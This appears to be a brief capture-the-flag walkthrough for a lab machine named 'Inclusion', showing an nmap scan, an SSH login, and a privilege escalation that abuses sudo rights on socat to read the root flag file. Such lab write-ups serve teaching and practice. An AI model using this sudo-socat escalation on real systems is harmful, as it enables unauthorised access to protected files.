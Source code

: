 # Inclusion

## :detective: Root It

### **#1 user flag**

```bash
sudo nmap 10.10.127.247
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 08-54-08.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-05-32.png>)

```bash
ssh falconfeast@10.10.127.247
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-06-43.png>)

### **#2 root flag**

```bash
sudo -l
sudo /usr/bin/socat -u EXEC:'cat /root/root.txt' STDOUT
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-14-29.png>)

## ****:link: **Support Material**

{% embed url="https://knplabs.com/en/blog/share-files-on-the-local-network-with-socat" %}
